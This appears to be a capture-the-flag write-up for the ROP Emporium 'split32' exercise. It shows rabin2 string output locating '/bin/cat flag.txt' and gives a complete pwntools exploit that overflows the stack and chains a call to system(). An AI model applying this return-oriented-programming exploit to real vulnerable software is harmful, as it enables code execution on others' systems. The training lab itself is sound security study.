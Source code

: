 ```yaml
---
layout: post
title: ROP Emporium - split32
---
```


### Prev step to overflow stack
<https://bhrdn.github.io/ROP-Emporium-ret2win32/>

### Find usefull string
```bash
rabin2 -z split32
```

```
[Strings]
Num Paddr      Vaddr      Len Size Section  Type  String
000 0x000006f0 0x080486f0  21  22 (.rodata) ascii split by ROP Emporium
001 0x00000706 0x08048706   7   8 (.rodata) ascii 32bits\n
002 0x0000070e 0x0804870e   8   9 (.rodata) ascii \nExiting
003 0x00000718 0x08048718  43  44 (.rodata) ascii Contriving a reason to ask user for data...
004 0x00000747 0x08048747   7   8 (.rodata) ascii /bin/ls
000 0x00001030 0x0804a030  17  18 (.data) ascii /bin/cat flag.txt
```

- 0x08048747 : /bin/ls
- 0x0804a030 : /bin/cat flag.txt

### Payload
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('split32')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()

payload = '\x90' * cyclic_find('laaa')

FLAG = 0x0804a030

rop = ROP(exe)
rop.system(FLAG)

io.sendline(payload + rop.__str__())
io.interactive()
```